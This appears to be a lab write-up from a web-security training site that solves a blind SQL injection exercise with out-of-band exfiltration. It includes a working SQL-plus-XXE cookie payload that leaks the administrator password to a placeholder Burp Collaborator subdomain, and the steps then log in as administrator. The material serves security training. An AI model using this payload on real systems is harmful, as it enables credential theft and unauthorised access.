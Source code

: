 

#### Blind SQL injection with out-of-band data exfiltration

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics,  and performs an SQL query containing the value of the submitted cookie. 
>
> The SQL query is executed asynchronously and has no effect  on the application's response. However, you can trigger out-of-band  interactions with an external domain.
>
> The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.
>
> To solve the lab, log in as the `administrator` user.

<div class="component-solution is-expandable">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Visit the front page of the shop, and use Burp Suite Professional to intercept and modify the request containing the <code>TrackingId</code> cookie.
                    </li>
                    <li>
                        Go to the Burp menu, and launch the Burp Collaborator client.
                    </li>
                    <li>
                        Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
                    </li>
                    <li>
                        <p>
                            Modify the <code>TrackingId</code> cookie, changing it to a payload that will leak the administrator's password in an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows:
                        </p>
                            <code class="code-scrollable">TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('&lt;%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f&gt;&lt;!DOCTYPE+root+[+&lt;!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/"&gt;+%25remote%3b]&gt;'),'/l')+FROM+dual--</code>
                    </li>
                    <li>
                        Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side query is executed asynchronously.
                    </li>
                    <li>
                        You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The password of the <code>administrator</code> user should appear in the subdomain of the interaction, and you can view this within the Burp Collaborator client. For DNS interactions, the full domain name that was looked up is shown in the Description tab. For HTTP interactions, the full domain name is shown in the Host header in the Request to Collaborator tab.
                    </li>
                    <li>
                        In the browser, click "My account" to open the login page. Use the password to log in as the <code>administrator</code> user.
                    </li>
                </ol>
            </div>
        </div>
